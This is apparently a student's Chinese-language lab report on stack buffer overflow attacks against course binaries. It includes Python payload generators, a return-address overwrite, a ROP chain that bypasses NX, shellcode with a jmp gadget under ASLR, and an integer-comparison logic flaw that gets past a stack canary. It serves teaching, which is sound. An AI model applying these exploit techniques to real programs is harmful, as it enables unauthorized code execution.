




# 栈溢出攻击实验

## 题目解决思路

### Problem 1: 
- **分析**：
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片
Problem 1: 基础栈溢出
分析：
通过 objdump 分析发现 func 函数中使用了 strcpy 函数，该函数在复制字符串时不检查长度。
缓冲区位置：汇编指令 lea -0x8(%rbp), %rax 表明局部变量缓冲区起始于 rbp-0x8（大小仅 8 字节）。
目标函数：func1 地址为 0x401216，调用它可输出目标字符串。
偏移量计算：从缓冲区到返回地址需要覆盖：缓冲区 (8字节) + 已保存的 RBP (8字节) = 16 字节。

解决方案：
使用 Python 构造 payload，填充 16 个 'A'，随后紧跟 func1 的小端序地址。
构造的Python代码如下：
import struct
# Padding: 8 bytes buffer + 8 bytes saved rbp
padding = b"A" * 16
# Target: func1 address 0x401216
target = struct.pack("<Q", 0x401216)
payload = padding + target
with open("ans1.txt", "wb") as f:
    f.write(payload)

结果：
成功输出 Yes!I like ICS!。

### Problem 2:
- **分析**：...
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片
Problem 2: ROP 绕过 NX 保护
分析：
该程序开启了 NX 保护，栈不可执行。我们需要利用 ROP (Return Oriented Programming) 技术。
  目标：调用 func2 (地址 0x401216)，且必须传参 rdi = 0x3f8 (即 1016)。
  Gadget：在地址 0x4012c7 发现 pop %rdi; ret 指令序列。
  偏移量：与 P1 类似，缓冲区在 rbp-0x8，偏移量为 16 字节。

解决方案：
构造 ROP 链：Padding + pop_rdi_addr + 0x3f8 + func2_addr。
Python代码如下：
import struct
padding = b"A" * 16
pop_rdi_ret = struct.pack("<Q", 0x4012c7)
arg_val = struct.pack("<Q", 0x3f8)
func2_addr = struct.pack("<Q", 0x401216)
payload = padding + pop_rdi_ret + arg_val + func2_addr
with open("ans2.txt", "wb") as f:
    f.write(payload)

结果：
成功输出 Welcome to the second level! Yes!I like ICS!。

### Problem 3: 
- **分析**：...
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片
Problem 3: 绕过 ASLR 与代码注入
分析：
栈可执行但地址随机化。
  目标：跳转到 func1 (地址 0x401216) 且 rdi = 0x72 (114)。
  核心技巧：程序提供了一个 gadget jmp_xs (地址 0x401334)。它读取 saved_rsp（即缓冲区起始地址）并执行 jmp *%rax。这允许我们无需硬编码栈地址即可跳回栈执行 Shellcode。
  偏移量：缓冲区在 rbp-0x20，到返回地址偏移量为 32 + 8 = 40 字节。

解决方案：
编写 16 字节的 Shellcode 放在缓冲区开头，覆盖返回地址为 jmp_xs 地址。
Python代码如下：
import struct
# Shellcode: mov rdi, 0x72; mov rax, 0x401216; jmp rax
shellcode = b"\x48\xc7\xc7\x72\x00\x00\x00" \
            b"\x48\xc7\xc0\x16\x12\x40\x00" \
            b"\xff\xe0"
padding = b"A" * (40 - len(shellcode))
jmp_xs = struct.pack("<Q", 0x401334)
payload = shellcode + padding + jmp_xs
with open("ans3.txt", "wb") as f:
    f.write(payload)

结果：
成功输出 Your lucky number is 114。

### Problem 4: 
- **分析**：体现canary的保护机制是什么
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片
Problem 4: Canary 保护与逻辑绕过
分析：
程序开启了 Canary (栈保护) 机制。
Canary 机制体现：
设置 (地址 0x136c)：执行 mov %fs:0x28, %rax 获取随机值并存入 rbp-0x8。
校验 (地址 0x140a)：返回前取出栈上的值并与 %fs:0x28 原值异或比较，若被破坏则调用 __stack_chk_fail。
绕过思路：题目提示“不需要写代码”。分析 func 发现存在逻辑漏洞。通过输入 -1，在无符号比较（jae）中它被视为极大值，绕过初步检查。经过循环减法后结果变为 1，满足 if 判断直接调用通关函数，完全无需溢出，从而绕过 Canary。

解决方案：
无需 payload 文件。直接运行程序，会要求输入，输入3次-1即可

结果：
成功输出 great!I will give you great scores。

## 思考与总结
思考与总结
1.栈溢出防御演进：本次实验完整展示了从基础溢出到对抗 NX (栈不可执行)、ASLR (地址随机化) 及 Canary (栈保护) 的过程。防御技术在进步，攻击手段也从简单的代码注入转向 ROP 和逻辑漏洞挖掘。
2.x86-64 传参规则：深刻理解了 64 位下通过寄存器（RDI, RSI 等）传参的机制，这是构造 ROP 链的基础。
3.安全意识：实验证明，即使开启了所有硬件级保护（Canary + NX + ASLR），程序逻辑上的疏忽（如 P4 的整数判断）依然会导致系统被攻破。编写安全的代码（如使用 strncpy 代替 strcpy）比依赖系统保护更重要。

## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
参考资料
1.CTF Wiki - Stack Overflow
2.Intel® 64 and IA-32 Architectures Software Developer’s Manual
3.CSAPP - Chapter 3: Machine-Level Representation of Programs